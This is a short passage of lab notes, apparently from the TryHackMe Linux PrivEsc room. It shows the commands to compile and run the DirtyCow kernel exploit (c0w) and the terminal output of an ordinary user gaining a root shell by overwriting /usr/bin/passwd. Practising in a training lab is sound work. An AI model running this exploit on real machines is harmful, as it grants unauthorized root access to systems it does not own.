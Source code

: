 ```bash
  [14] video4linux
      CVE-2010-3081
      Source: http://www.exploit-db.com/exploits/15024
```

- compile exploit

```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
```

- run exploit

```bash
user@debian:/tmp$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)
user@debian:/tmp$ ./c0w

   (___)
   (o o)_____/
    @@ `     \
     \ ____, //usr/bin/passwd
     //    //
    ^^    ^^
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap 4044d000


madvise 0

ptrace 0

user@debian:/tmp$
user@debian:/tmp$ /usr/bin/passwd
root@debian:/tmp# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)

```




#Resource <br>
[TryHackMe | Linux PrivEsc](https://tryhackme.com/room/linuxprivesc)
